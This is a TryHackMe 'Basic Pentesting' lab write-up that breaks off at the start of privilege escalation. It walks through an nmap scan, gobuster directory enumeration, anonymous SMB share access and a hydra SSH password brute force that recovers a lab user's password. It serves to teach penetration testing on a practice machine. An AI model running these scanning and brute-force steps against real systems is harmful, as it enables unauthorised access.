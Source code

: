 ```yaml
---
layout: single
title: Basic Pentesting - TryHackMe
excerpt: "This is a machine that allows you to practise web app hacking and privilege escalation."
date: 2023-08-24
classes: wide
header:
  teaser: assets/images/thm-writeup-Basic_Pentesting/intro.png
  teaser_home_page: true
  icon: assets/images/tryhackme.png
categories:
  - tryhackme
tags:  
  - Machine
  - SSRF
  - SQL
---
```

![](../assets/images/thm-writeup-Basic_Pentesting/foto21.PNG)

**RECON**

**NMAP**
```css
❯ sudo nmap -p- -sSCV --open --min-rate 5000 -Pn -n -v 10.10.19.38 -oA allPorts

   1   │ # Nmap 7.94 scan initiated Thu Aug 24 21:02:59 2023 as: nmap -p- -sSCV --open --min-rate 5000 -Pn -n -v -oA allPorts 10.10.19.38
   2   │ Nmap scan report for 10.10.19.38
   3   │ Host is up (0.069s latency).
   4   │ Not shown: 65529 closed tcp ports (reset)
   5   │ PORT     STATE SERVICE     VERSION
   6   │ 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
   9   │ |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
  10   │ |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
  11   │ 80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
  12   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
  13   │ |_http-title: Site doesn't have a title (text/html).
  14   │ | http-methods: 
  15   │ |_  Supported Methods: OPTIONS GET HEAD POST
  16   │ 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  17   │ 445/tcp  open  0~Gd�U      Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  18   │ 8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
  19   │ | ajp-methods: 
  20   │ |_  Supported methods: GET HEAD POST OPTIONS
  21   │ 8080/tcp open  http        Apache Tomcat 9.0.7
  22   │ | http-methods: 
  23   │ |_  Supported Methods: GET HEAD POST OPTIONS
  24   │ |_http-favicon: Apache Tomcat
  25   │ |_http-title: Apache Tomcat/9.0.7
  26   │ Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
  27   │ 
  28   │ Host script results:
  29   │ |_clock-skew: mean: 1h19m58s, deviation: 2h18m34s, median: -2s
  30   │ | smb-os-discovery: 
  31   │ |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
  32   │ |   Computer name: basic2
  33   │ |   NetBIOS computer name: BASIC2\x00
  34   │ |   Domain name: \x00
  35   │ |   FQDN: basic2
  36   │ |_  System time: 2023-08-24T15:03:23-04:00
  37   │ | smb-security-mode: 
  38   │ |   account_used: guest
  39   │ |   authentication_level: user
  40   │ |   challenge_response: supported
  41   │ |_  message_signing: disabled (dangerous, but default)
  42   │ | smb2-time: 
  43   │ |   date: 2023-08-24T19:03:23
  44   │ |_  start_date: N/A
  45   │ | nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  46   │ | Names:
  47   │ |   BASIC2<00>           Flags: <unique><active>
  48   │ |   BASIC2<03>           Flags: <unique><active>
  49   │ |   BASIC2<20>           Flags: <unique><active>
  50   │ |   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
  51   │ |   WORKGROUP<00>        Flags: <group><active>
  52   │ |   WORKGROUP<1d>        Flags: <unique><active>
  53   │ |_  WORKGROUP<1e>        Flags: <group><active>
  54   │ | smb2-security-mode: 
  55   │ |   3:1:1: 
  56   │ |_    Message signing enabled but not required
  57   │ 
  58   │ Read data files from: /usr/bin/../share/nmap
  59   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  60   │ # Nmap done at Thu Aug 24 21:03:27 2023 -- 1 IP address (1 host up) scanned in 27.61 seconds
```

We have 6 open ports: 22(SSH), 80(HTTP), 139(SMB), 445(SMB), 8009(Jserv), 8080(Tomcat).

**Enumeration PORT:80**

**WEB**
Accessing the web page we can see that it is under maintenance with a note that says `"Please check back later"`.

![](../assets/images/thm-writeup-Basic_Pentesting/fotoWeb1.PNG)

If we see the source code we have a note that says the following `"Check our dev note section if you need to know what to work on."`.

![](../assets/images/thm-writeup-Basic_Pentesting/fotoWeb2.PNG)


**DIRECTORY LISTING**

We will perform a dictionary attack to list what hidden directories are on the website.
```css
❯ gobuster dir -u http://10.10.19.38/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.19.38/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.118.249/development/]
Progress: 4238 / 220561 (1.92%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 4318 / 220561 (1.96%)
===============================================================
Finished
===============================================================

```

**/development/**

When we enter the development directory we can see that we have 2 .txt files.
![](../assets/images/thm-writeup-Basic_Pentesting/fotoWeb3.PNG)

**/development/dev.txt**

It appears to be a conversation between two potential users.

User -> J

User -> K
![](../assets/images/thm-writeup-Basic_Pentesting/fotoWeb4.PNG)

**/development/j.txt**

With this conversation we can understand that user "J" has a weak password that can be easily cracked.

![](../assets/images/thm-writeup-Basic_Pentesting/fotoWeb5.PNG)

**Enumeration PORT:139,445**

We can observe that there is a shared folder named `'Anonymous'` when using `smbclient`.

```css
❯ smbclient -L 10.10.19.38
Password for [WORKGROUP\anonimo]:

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2

```
  
If we connect to the shared folder, we can see that there is a .txt file named staff.txt.

![](../assets/images/thm-writeup-Basic_Pentesting/smb.PNG)

If we open the file, we can see that it's a message from Kay to Jan, and with this, we discover the full names of K and J.

```css
❯ cat staff.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: staff.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Announcement to staff:
   2   │ 
   3   │ PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
   4   │ this is how mistakes happen. (This means you too, Jan!)
   5   │ 
   6   │ -Kay
```

**PASSWORD CRACKING**

If we recall the note from the beginning, Kay told Jan to change the password as soon as possible, as it was very weak. Knowing this, we could potentially crack the password using brute force.

```css
❯ hydra -l jan -P /home/anonimo/rockyou.txt ssh://10.10.19.38
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-24 23:15:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.19.38:22/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344222 to do in 1358:22h, 16 active
[STATUS] 118.33 tries/min, 355 tries in 00:03h, 14344043 to do in 2020:18h, 16 active
[22][ssh] host: 10.10.19.38   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-24 23:22:22

```
We have Jan's password, which will give us SSH access.

`User: jan
Password: armando`

```bash
jan@basic2:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```
**PRIVILEGE ESCALATION**

After a bit of searching, we realize that the user 'kay' has a file that seems to contain a password. Unfortunately, we cannot access it due to lack of permissions.

```bash
jan@basic2:~$ cd /home
jan@basic2:/home$ ls
jan  kay
jan@basic2:/home$ cd kay/
jan@basic2:/home/kay$ ls
pass.bak
jan@basic2:/home/kay$ cat pass.bak 
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ 
```
